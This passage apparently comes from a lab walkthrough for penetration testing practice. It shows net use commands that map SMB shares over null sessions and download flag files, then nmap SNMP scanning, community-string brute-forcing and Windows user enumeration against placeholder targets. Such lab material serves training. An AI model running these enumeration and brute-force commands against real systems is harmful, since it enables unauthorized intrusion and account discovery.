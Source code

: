 We can see two shared resources. **Documents** and **K** drive. This confirms that pivot target allows Null Sessions, so we can access the shared resources. Also, we can achieve the same goal in several ways.

```shell
net use D: \\<target_IP_2>\Documents
net use K: \\<target_IP_2>\K$

# We successfully mapped the resources to D and K drives. Let's check what is inside these mapped drives.
dir D:
dir K:

cd D:\\ 
download Confidentia.txt
download FLAG2.txt
```

### 2.2. SNMP Analysis

SNMP (Simple Network Management Protocol) is a network protocol used for monitoring, managing, and configuring devices like routers, switches, servers, and printers over IP networks. It enables network administrators to collect information, detect faults, and configure network devices remotely through a management system.

**Objective**: Exploit the target to gain the shell and find the flag!
The best tools for this goal are:
- Nmap
- Metasploit Framework
- snmpwalk
- Hydra

**Scan the target**

```shell
nmap -Pn -sV <target_IP>
nmap -sU -p 161 <target_IP>
```

We can notice, multiple ports are open on the target machine. Now, let's check if the SNMP port is open or not. As we can see, the UDP port 161 is open. This information is crucial for our following tasks.

```shell
ls /usr/share/nmap/scripts/ | grep snmp
ls -al /usr/share/nmap/scripts/ | grep snmp # -al > All files | Long listing format

nmap -sU -p 161 --script snmp-brute <target_IP>
# As we can see, we found three community names: public, private, and secret

nmap -sU -p 161 --script snmp-win32-users <target_IP>
# Attempts to enumerate Windows user accounts through SNMP
# snmp-win32-users: Administrator, DefaultAccount, Guest, WDAGUtilityAccount, admin

nmap -sU -p 161 --script snmp-* <target_IP> > snmp_output
# The above command would run all the nmap SNMP scripts on the target machine and store its output to the snmp_output file.
```
